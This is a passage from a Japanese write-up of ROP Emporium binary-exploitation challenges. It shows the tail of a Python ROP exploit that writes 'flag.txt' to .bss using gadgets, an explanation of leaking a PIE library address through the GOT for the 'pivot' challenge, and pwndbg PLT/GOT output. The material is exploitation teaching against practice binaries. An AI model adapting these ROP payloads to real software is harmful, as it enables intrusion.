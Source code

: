 ```
        0x004003cf, # g
        0x004003c9, # .
        0x0040040e, # t
        0x004006c8, # x
        0x0040040e] # t
    offset_al = [0x0b, 0x66, 0x6c, 0x61, 0x67, 0x2e, 0x74, 0x78]
    addr_bss = 0x00601038
    payload = b''

    for i in range(8):
        payload += p64(0x004006a3) # pop rdi; ret;
        payload += p64(addr_bss + i)
        payload += p64(0x0040062a) # pop rdx; pop rcx; add rcx 0x3ef2; bextr rbx, rcx, rdx
        payload += p64(0x00004000)
        payload += p64(chacacter_location[i] - offset_al[i] -  0x3ef2)
        payload += p64(0x00400628) # xlatb
        payload += p64(0x00400639) # stosb byte [rdi], al

    return payload


if __name__ == '__main__':
    exploit()
```

## Challenge 7 pivot

[問題へのリンク](https://ropemporium.com/challenge/pivot.html)

`flag.txt`の中身を出力する関数`ret2win`は実行バイナリではなく、共有ライブラリである`libpivot.so`にある。そのため共有ライブラリからこの関数のアドレスを知りたい。しかし、共有ライブラリはPIEが有効になっているのでバイナリが置かれる仮想アドレスがランダムになっている。そのため`ret2win`関数を呼ぶにはこの関数の絶対アドレスをエクスプロイトの実行中に知る必要がある。

共有ライブラリの中には、`foothold_function`という関数もある。PIEが有効でもそうでなくても`foothold_function`と`ret2win`のアドレスの差は常に同じなので、この2つの関数のアドレスの差と`foothold_function`の絶対アドレスを知ることができれば`ret2win`の絶対アドレスも分かるようになる。

絶対アドレスを手に入れるために、エクスプロイトの中で一度`foothold_function`を呼ぶ。そうするとGOTから関数の絶対アドレスを得ることができる。あとは、上記のアドレスの差を可算して`call`すれば`ret2win`が実行できるようになる。

```
pwndbg> plt
0x4006d0: free@plt
0x4006e0: puts@plt
0x4006f0: printf@plt
0x400700: memset@plt
0x400710: read@plt
0x400720: foothold_function@plt
0x400730: malloc@plt
0x400740: setvbuf@plt
0x400750: exit@plt
pwndbg> got

GOT protection: Partial RELRO | GOT functions: 9
 
[0x601018] free@GLIBC_2.2.5 -> 0x4006d6 (free@plt+6) ◂— push   0 /* 'h' */
[0x601020] puts@GLIBC_2.2.5 -> 0x7ffff7c475f0 (puts) ◂— push   r14
[0x601028] printf@GLIBC_2.2.5 -> 0x4006f6 (printf@plt+6) ◂— push   2
[0x601030] memset@GLIBC_2.2.5 -> 0x400706 (memset@plt+6) ◂— push   3
[0x601038] read@GLIBC_2.2.5 -> 0x400716 (read@plt+6) ◂— push   4
[0x601040] foothold_function -> 0x400726 (foothold_function@plt+6) ◂— push   5
[0x601048] malloc@GLIBC_2.2.5 -> 0x7ffff7c5b0f0 (malloc) ◂— mov    rax, qword ptr [rip + 0x147df9]
[0x601050] setvbuf@GLIBC_2.2.5 -> 0x7ffff7c47cd0 (setvbuf) ◂— push   r14
[0x601058] exit@GLIBC_2.2.5 -> 0x400756 (exit@plt+6) ◂— push   8
pwndbg> 
```